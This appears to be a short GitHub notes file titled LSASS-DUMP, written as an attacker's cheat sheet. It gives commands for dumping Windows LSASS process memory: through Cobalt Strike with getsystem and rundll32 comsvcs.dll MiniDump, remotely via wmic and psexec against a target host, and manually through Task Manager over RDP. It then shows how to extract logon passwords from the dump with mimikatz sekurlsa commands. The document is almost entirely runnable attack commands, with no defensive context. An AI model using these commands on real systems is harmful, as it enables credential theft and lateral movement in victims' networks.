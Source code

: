 # LSASS-DUMP


method via cobalt: (*** special thanks to @dtob1804 )
!* 1) getsystem

2) shell rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump PID C:\ProgramData\lsass.dmp full (the pid is from lsass)
(remove on remote car) coba_wmic:
shell wmic /node:[target] process call create "cmd /c rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump PID C:\ProgramData\lsass.dmp full"
remote-exec psexec [target] cmd /c rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump PID C:\ProgramData\lsass.dmp full

=======

method via RDP:
open taskmgr => PKM po lsass process => create Dump file.  \\ Next, download the file to your computer,


=======

how to dump it:
open mimic and then:
privilege::debug
sekurlsa::minidump A:\3.WORK\BL-ws20\lsass.DMP (replace the path to our file)
log
sekurlsa::logonpasswords

CREDITS: Learners Room @dtob1804
